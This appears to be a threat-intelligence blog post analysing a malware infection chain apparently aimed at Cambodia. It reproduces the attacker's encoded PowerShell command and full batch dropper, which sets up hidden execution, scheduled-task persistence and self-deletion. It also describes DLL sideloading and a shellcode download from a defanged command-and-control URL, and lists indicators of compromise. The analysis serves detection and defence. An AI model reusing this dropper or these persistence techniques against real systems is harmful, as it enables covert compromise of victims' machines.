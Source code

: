 ```yaml
---
title: Unattributed Shellcode Loader Likely Targeting Cambodia
by: dmpdump
tags: cti malware
---
```


On March 20, 2025, MalwareHunterTeam shared a sample of a ZIP file containing an LNK, uploaded from Cambodia:

![sshot](/assets/images/shellcode_cambodia/mht.png)

The ZIP file is named `CNP_MFA_Meeting_Documents.zip`. It contains an LNK file named `Meeting_Staff_List.lnk` and a hidden folder named `Resources`. This folder contains a ZIP file named `Resources.zip` and a batch file named `R.bat`

![sshot](/assets/images/shellcode_cambodia/zip1.png)


![sshot](/assets/images/shellcode_cambodia/zip2.png)

`Resources.zip` contains the files that are used for the next-stage payload download:

![sshot](/assets/images/shellcode_cambodia/zip3.png)

# Infection chain

When `Meeting_Staff_List.lnk` is executed, it runs a hidden/base64-encoded PowerShell script:

```powershell
 /c pOweRsHeLl.eXe -w 1 -e dABhAHIAIAAtAHgAZgAgACIAQwBOAFAAXwBNAEYAQQBfAE0AZQBlAHQAaQBuAGcAXwBEAG8AYwB1AG0AZQBuAHQAcwAuAHoAaQBwACIAOwAgACYAIAAiAFIAZQBzAG8AdQByAGMAZQBzAFwAUgAuAGIAYQB0ACIA
```

The decoded scripts shows that the LNK simply extracts the contents of the ZIP file and runs `R.bat`.

```batch
tar -xf "CNP_MFA_Meeting_Documents.zip"; & "Resources\R.bat"
```

`R.bat` is a simple batch script that was very likely generated with an LLM. The excessive presence of comments in the code is typically a good indicator of LLM-generated code. This batch script performs the following actions:

* Tries to extract the contents of `Resources.zip` to a newly-created folder `Notepad++` under %AppData% using PowerShell
* If the PowerShell attempt fails, it downloads 7-zip and attempts to extract the contents of `Resources.zip` with it
* Runs `Notepad++.exe`
* Creates a Scheduled Task named `Notepad++` to run every 15 minutes. The Scheduled Task runs `Notepad++.exe`
* Deletes `Resources.zip` and `R.bat`

```batch
@echo off
setlocal

set ResourceZip=%~dp0Resources.zip

:: Destination resources path 
set DropPath=%AppData%\Notepad++

mkdir %DropPath%

set ExecutableFile=%DropPath%\Notepad++.exe

:: Extract resources
powershell -nop -ep bypass -w 1 -command "Expand-Archive -Path '%ResourceZip%' -DestinationPath '%DropPath%' -Force"

:: If extract failed --> Install 7zip (mostly on Windows 7)
if errorlevel 1 (
    :: Define the URL and the output file name
    set "url=https://www.7-zip.org/a/7z2409-x64.exe"
    set "output=7z2409-x64.exe"

    :: Use PowerShell to download the file
    powershell -w hidden -nop -ep bypass -Command "Invoke-WebRequest -Uri '%url%' -OutFile '%output%'"

    :: Check if the download was successful
    if exist "%output%" (
        :: Run the installer silently
        "%output%" /S
    ) else (
        exit /b 1
    )

    :: Check if the ZIP file exists and extract it using 7-Zip
    if exist "%ResourceZip%" (
        :: Use 7-Zip to extract the ZIP file
        C:\PROGRA~1\7-Zip\7z.exe x "%ResourceZip%" -o"%DropPath%" -y
        if errorlevel 1 (
            C:\PROGRA~2\7-Zip\7z.exe x "%ResourceZip%" -o"%DropPath%" -y
            exit /b 1
        )
    ) else (
        exit /b 1
    )

    :: Clean up
    del "%output%"
)

:: Run the executable
if exist "%ExecutableFile%" (
    start "" "%ExecutableFile%"
) else (
    exit /b 1
)

:: Define the task name and the command to run
set taskName="Notepad++"
set taskCommand=%APPDATA%\Notepad++\Notepad++.exe  

:: Create the scheduled task
schtasks /create /tn "%taskName%" /tr "%taskCommand%" /sc minute /mo 15 /st 06:00:00 /f

:: Remove self
del /s /a /q /f %ResourceZip%
del /s /a /q /f R.bat

endlocal
```

`Notepad++.exe` is a legitimate version of WinGup for NotePad++. This executable loads the `libcurl.dll` via its Import Address Table. The threat actor delivered a malicious DLL for DLL Hijacking purposes.

![sshot](/assets/images/shellcode_cambodia/notepimport.png)

The malicious logic in this infection chain is implemented in `libcurl.dll`, loaded and executed in the memory of `Notepad++.exe`. Out of the 4 functions exported by this DLL, only `curl_easy_init` implements some functionality. The DLL strings are decrypted with a simple XOR algorithm using a rolling key. The following Python script can be used to decrypt strings:

```python
def decrypt(data):
    data = bytes.fromhex(data)
    result = bytearray(data)
    xor_key = [0xAA, 0x55]
    
    for i in range(len(result)):
        result[i] ^= xor_key[i % 2]
    
    return result.decode('ascii')

encrypted_str = "C221DE25D96F857AC63CDC308430CB26" #sample encrypted string from the DLL
decrypted = decrypt(encrypted_str)
print("Decrypted String:", decrypted)
```

When the DLL is loaded and `curl_easy_init` is called, a new thread is created that performs the following actions:

* First, it decrytps the string `curl.dll` and uses it to load the library, which is also delivered in the ZIP archive

![sshot](/assets/images/shellcode_cambodia/curldecrypt.png)

* Then, it decrypts strings for curl.dll's exported functions `checkper` and `setper`. First it calls the `checkper` function. If it returns fakse, it calls `setper`.

![sshot](/assets/images/shellcode_cambodia/export_dec.png)

Reviewing the loaded `curl.dll`, we can see that this is not related to curl. This DLL implements two functions to check and establish persistence via the registry run key - "checkper" stands for "check persistence", and "setper" stands for "set persistence". The value used for persistence is `WinGup`.


![sshot](/assets/images/shellcode_cambodia/checkper.png)

![sshot](/assets/images/shellcode_cambodia/setper.png)

* Next, it deletes `curl.dll` and decrypts the following URL: `https://live.easyboxsync[.]com/resources/gup/notepad`

![sshot](/assets/images/shellcode_cambodia/del_curl_dec_url.png)

* The DLL then performs the following actions:
    * Decrypts a 16 byte key: `oKqlpfBc5dkGuYi8`
    * Downloads a shellcode from the decrypted URL using the `downloader` User-Agent string
    * Decrypts the shellcode using AES (likely AES-128 given the key length) using the Crypto++ library
    * Loads the shellcode 

![sshot](/assets/images/shellcode_cambodia/down_sc.png)

![sshot](/assets/images/shellcode_cambodia/uas.png)

Unfortunately, as of this writing, I have not been able to obtain the next-stage encrypted shellcode to continue the analysis. Various elements of the infection chain suggest that this is targeted activity, including the lures, the techniques, and the attempts to clean up traces. These are not only recent uploads to VirusTotal, but the likely compilation time also suggests this is recent activity, with `libcurl.dll` and `curl.dll` having close timestamps.

`libcurl.dll` metadata:

![sshot](/assets/images/shellcode_cambodia/libcurl_time.png)

`curl.dll` metadata:

![sshot](/assets/images/shellcode_cambodia/curl_time.png)

While we don't have a PDB path from the `libcurl.dll`, we can still get a path from the use of the Crypto++ libraries in the development environment:

![sshot](/assets/images/shellcode_cambodia/pdb.png)


# IOCs
* CNP_MFA_Meeting_Documents.zip: a2c128fc040ed2db7634134f0577b3267164b71f692fc9b37c08e48b168d89e6
* Meeting_Staff_List.lnk: 7e0da1399ff99e41493db489159668db566b6b00cd367e770619b774ec515809
* Resources.zip: badd970fab64c072e5ab0a81865de0988c1b12165a076bcdbee8a9cb8e101675
* R.bat: 28ff75c0ac4434cdc4f0b21567ac1f06979c2426f8623d157473ac079bf8792a
* Notepad++.exe: 1f8c7a202ac9f64efbedb420b6160ef4f9852f6ff1aa36abaa64bfb76b142e15
* libcurl.dll: 23d76c49128994d83f878fd08829d003c2ffcd063d03ec7ff1fe4fe41ffb36c3
* curl.dll: 2707ba2dc931da049f70c31b0654714121fac908475dc084cb4ab808f9dd5308